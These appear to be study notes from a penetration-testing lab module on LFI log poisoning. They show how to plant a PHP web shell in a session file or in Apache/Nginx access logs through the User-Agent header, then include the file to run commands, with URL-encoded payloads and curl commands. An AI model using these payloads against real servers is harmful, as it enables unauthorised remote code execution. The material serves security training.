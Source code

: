 # Log Poisoning
The attacks we will discuss in this section all rely on the same concept: Writing PHP code in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file), and then include that log file to execute the PHP code.

For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.

As was the case in the previous section, any of the following functions with `Execute` privileges should be vulnerable to these attacks:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

## PHP Session Poisoning
Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. 

These details are stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows. 

The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. 

For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison. So, let's first check if we have a `PHPSESSID` cookie set to our session through Developer Tools - Storage section.

In this case, `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`. 

Let's try include this session file through the LFI vulnerability and view its contents:
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_urojeq9b2mda1m7sl87gvbm5t4
```

In this case, we see 2 values: `page`, which shows the selected language page, and `preference`, which shows the selected language. 

The `preference` value is not under our control, as we did not specify it anywhere and must be automatically specified. However, the `page` value is under our control, as we can control it through the `?language=` parameter.

Let's try setting the value of `page` a custom value (e.g. `language parameter`) and see if it changes in the session file. We can do so by simply visiting the page with `?language=session_poisoning` specified, as follows:
```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Now, let's include the session file once again to look at the contents:
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_urojeq9b2mda1m7sl87gvbm5t4
```

This time, the session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file.

Our next step is to perform the `poisoning` step by writing PHP code to the session file. We can write a basic PHP web shell by changing the `?language=` parameter to a URL encoded web shell, as follows:
```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finally, we can include the session file and use the `&cmd=id` to execute a commands:
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_urojeq9b2mda1m7sl87gvbm5t4&cmd=id
```
> Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion.
## Server Log Poisoning
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

Once poisoned, we need to include the logs through the LFI vulnerability, and for that we need to have read-access over the logs.

By default, `Apache` logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows, while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.

However, the logs may be in a different location in some cases, so we may use an [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations, as will be discussed in the next section.

Let's try including the Apache access log from `/var/log/apache2/access.log`, and see what we get:
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

As we can see, we can read the log. The log contains the `remote IP address`, `request page`, `response code`, and the `User-Agent` header.
- We can control the `User=Agent` header through HTTP requests, so we can poison this.

To do so, we will use `Burp Suite` to intercept our earlier LFI request and modify the `User-Agent` header to `Apache Log Poisoning`: ![HTTP request and response showing Apache log poisoning with PHP notice about an undefined variable.](https://academy.hackthebox.com/storage/modules/23/rfi_cmd_repeater.png)

We may also poison the log by sending a request through cURL, as follows:
```bash
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
```
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
```

As the log should now contain PHP code, the LFI vulnerability should execute this code, and we should be able to gain remote code execution. We can specify a command to be executed with (`&cmd=id`): ![HTTP request and response showing Apache log poisoning with PHP code execution using system command.](https://academy.hackthebox.com/storage/modules/23/rfi_id_repeater.png)

We see that we successfully executed the command. The exact same attack can be carried out on `Nginx` logs as well.
## Extra Notes
Finally, there are other similar log poisoning techniques that we may utilize on various system logs, depending on which logs we have read access over. The following are some of the service logs we may be able to read:

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

We should first attempt reading these logs through LFI, and if we do have access to them, we can try to poison them as we did above. For example, if the `ssh` or `ftp` services are exposed to us, and we can read their logs through LFI, then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute. The same applies the `mail` services, as we can send an email containing PHP code, and upon its log inclusion, the PHP code would execute.
